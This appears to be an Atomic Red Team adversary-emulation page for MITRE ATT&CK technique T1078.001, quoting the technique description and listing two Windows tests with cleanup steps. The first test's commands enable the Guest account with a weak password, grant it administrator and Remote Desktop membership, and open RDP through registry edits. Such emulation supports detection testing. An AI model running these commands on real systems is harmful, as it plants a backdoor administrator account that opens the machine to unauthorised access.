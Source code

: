 # T1078.001 - Default Accounts
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1078/001)
<blockquote>Adversaries may obtain and abuse credentials of a default account as a means of gaining Initial Access, Persistence, Privilege Escalation, or Defense Evasion. Default accounts are those that are built-into an OS, such as the Guest or Administrator accounts on Windows systems. Default accounts also include default factory/provider set accounts on other types of systems, software, or devices, including the root user account in AWS and the default service account in Kubernetes.(Citation: Microsoft Local Accounts Feb 2019)(Citation: AWS Root User)(Citation: Threat Matrix for Kubernetes)

Default accounts are not limited to client machines, rather also include accounts that are preset for equipment such as network devices and computer applications whether they are internal, open source, or commercial. Appliances that come preset with a username and password combination pose a serious threat to organizations that do not change it post installation, as they are easy targets for an adversary. Similarly, adversaries may also utilize publicly disclosed or stolen [Private Keys](https://attack.mitre.org/techniques/T1552/004) or credential materials to legitimately connect to remote environments via [Remote Services](https://attack.mitre.org/techniques/T1021).(Citation: Metasploit SSH Module)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Enable Guest account with RDP capability and admin privileges](#atomic-test-1---enable-guest-account-with-rdp-capability-and-admin-privileges)

- [Atomic Test #2 - Activate Guest Account](#atomic-test-2---activate-guest-account)


<br/>

## Atomic Test #1 - Enable Guest account with RDP capability and admin privileges
After execution the Default Guest account will be enabled (Active) and added to Administrators and Remote Desktop Users Group,
and desktop will allow multiple RDP connections.

**Supported Platforms:** Windows


**auto_generated_guid:** 99747561-ed8d-47f2-9c91-1e5fde1ed6e0





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| guest_user | Specify the guest account | String | guest|
| guest_password | Specify the guest password | String | Password123!|
| local_admin_group | Specify the admin localgroup name | String | Administrators|
| remote_desktop_users_group_name | Specify the remote desktop users group name | String | Remote Desktop Users|
| remove_rdp_access_during_cleanup | Set to 1 if you want the cleanup to remove RDP access to machine | Integer | 0|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
net user #{guest_user} /active:yes
net user #{guest_user} #{guest_password}
net localgroup #{local_admin_group} #{guest_user} /add
net localgroup "#{remote_desktop_users_group_name}" #{guest_user} /add
reg add "hklm\system\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
reg add "hklm\system\CurrentControlSet\Control\Terminal Server" /v "AllowTSConnections" /t REG_DWORD /d 0x1 /f
```

#### Cleanup Commands:
```cmd
net user #{guest_user} /active:no >nul 2>&1
net localgroup #{local_admin_group} #{guest_user} /delete >nul 2>&1
net localgroup "#{remote_desktop_users_group_name}" #{guest_user} /delete >nul 2>&1
if #{remove_rdp_access_during_cleanup} NEQ 1 (echo Note: set remove_rdp_access_during_cleanup input argument to disable RDP access during cleanup)
if #{remove_rdp_access_during_cleanup} EQU 1 (reg delete "hklm\system\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /f >nul 2>&1)
if #{remove_rdp_access_during_cleanup} EQU 1 (reg delete "hklm\system\CurrentControlSet\Control\Terminal Server" /v "AllowTSConnections" /f >nul 2>&1)
```





<br/>
<br/>

## Atomic Test #2 - Activate Guest Account
The Adversaries can activate the default Guest user. The guest account is inactivated by default

**Supported Platforms:** Windows


**auto_generated_guid:** aa6cb8c4-b582-4f8e-b677-37733914abda





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| guest_user | Specify the guest account | String | guest|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
net user #{guest_user} /active:yes
```

#### Cleanup Commands:
```cmd
net user #{guest_user} /active:no
```





<br/>
